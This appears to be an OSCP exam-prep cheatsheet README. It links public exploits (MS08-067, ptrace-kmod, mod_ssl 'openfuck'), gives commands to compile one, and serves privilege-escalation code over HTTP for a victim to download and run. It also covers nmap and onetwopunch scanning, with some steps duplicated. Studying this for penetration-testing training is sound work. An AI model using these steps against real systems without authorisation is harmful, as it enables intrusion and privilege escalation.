 # cheatsheets and exploit code and scripts / OSCP
 



**python ms08-067 remote exploit** (https://www.exploit-db.com/exploits/40279)
edit `shellcode` variable with payload and adjusts NOPS to fit it

 **ptrace-kmod Linux privilege escalation** Works for 2.2.x and 2.4.x kernels. (https://www.exploit-db.com/exploits/3) 
```c
// #include <linux/user.h>
#include <sys/user.h>
#include <sys/reg.h>
```

---

**mod_ssl 2.8.7 open ssl exploit (openfuckv2)** (https://www.exploit-db.com/exploits/764)
(commented out #COMMAND2 to download, compile and execute privilege escalation using ptrace-kmod.c)

1. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`

_if you encounter missing ld error while compiling at victim machine, try checking PATH and make sure it is pointing to the 'ld' file_

2. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`

---

**Onetwopunch.sh** (https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh) Wrapper for unicornscan (fast port scan) and nmap (vuln script scan)
1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`